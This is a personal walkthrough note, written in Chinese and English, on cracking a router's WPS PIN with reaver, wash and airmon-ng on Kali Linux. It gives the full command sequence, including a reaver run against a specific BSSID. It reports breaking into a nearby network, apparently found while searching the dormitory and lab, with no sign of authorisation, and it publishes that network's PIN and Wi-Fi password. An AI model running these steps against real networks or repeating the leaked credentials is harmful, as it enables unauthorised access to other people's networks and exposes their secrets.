 # Wireless - WPS Cracking by Reaver

Created by : Mr Dk.

2018 / 12 / 07 10:19

Nanjing, Jiangsu, China

---

## Tools

_Kali Linux_ 中的 _reaver_

* Reaver v1.6.5 WiFi Protected Setup Attack Tool; Copyright (c) 2011, Tactical Network Solutions, Craig Heffner
* 用于攻击支持 _WPS_ 的设备

_Kali Linux_ 中的 _wash_

* Wash v1.6.5 WiFi Protected Setup Scan Tool; Copyright (c) 2011, Tactical Network Solutions, Craig Heffner
* 用于扫描周围支持 _WPS_ 的设备

_Kali Linux_ 中的 _aircrack-ng_

* 用于将网卡设定为监控模式

---

## Theory

支持 _WPS_ 功能的无线路由器，只要获得它的 _PIN_

就可以获得它的 _PSK_，从而自动连入网络

从而简化路由器的连接配置过程

_reaver_ 通过穷举的方式暴力破解这个 _PIN_

从而获得无线网络的密码

---

## Procedure

### Insert a USB-wireless-interface

```bash
$ ifconfig
```

![reaver-init](../img/reaver-init.png)

_wlan0_ is the wireless interface I have just inserted

### Turn the wireless-interface into monitor mode

```bash
$ airmon-ng start wlan0
```

![reaver-mon](../img/reaver-mon.png)

### Check whether the monitor mode is on

```bash
$ ifconfig
```

![reaver-ifconfig](../img/reaver-ifconfig.png)

_wlan0mon_ is the wireless-interface which has been turned into monitor mode

### Search for the Routers which support WPS

```bash
$ wash -i wlan0mon
```

![reaver-wash](../img/reaver-wash.png)

实测很多路由器已经有了保护措施：

* 不回应破解
* 穷举到一定次数后开启保护

另外和网卡放置的角度也有关系

* 使用放在我右手边的网卡破解一直失败
* 使用放在我右手边靠窗的网卡就能破解成功

经过尝试和选择，身边唯一能被破解的网络 —— `TP-LINK_qwer`

### Start cracking by reaver

```bash
$ reaver -i wlan0mon -b EC:88:8F:51:DD:A2 -vv
```

由于 _8_ 位的 _PIN_ 是分为两个 _4_ 位分开存放的

_reaver_ 会先穷举前四位 _PIN_

在我的破解过程中，在进度大约到 _15%_ 时，突然跳到了 _90%_

说明前四位已被破解，直接进入了后四位的破解，因此进度大大增加

![reaver-result](../img/reaver-result.png)

后四位 _PIN_ 也破解完毕

由此 _8_ 位 _PIN_ 已被全部破解出来，_PSK_ 也被获得

_AP SSID_ - `TP-LINK_qwer`; _PIN_ - `18914863`；_PSK_ - `nuaa@413`

如果已知路由器的 _PIN_，就可以直接使用 `-p PIN` 参数直接获得 _PSK_

---

## Summary

这个破解太受条件限制了

在宿舍和实验室里找了好久

才找到这么一个唯一可以被破解的无线路由器

说明现在的路由器厂商已经非常注意防御此类破解了

令我比较郁闷的是

_kismet_ 号称可以在检测到暴力破解 _WPS_ 时发出警告

然而并没有警告啊。。。。。。

---

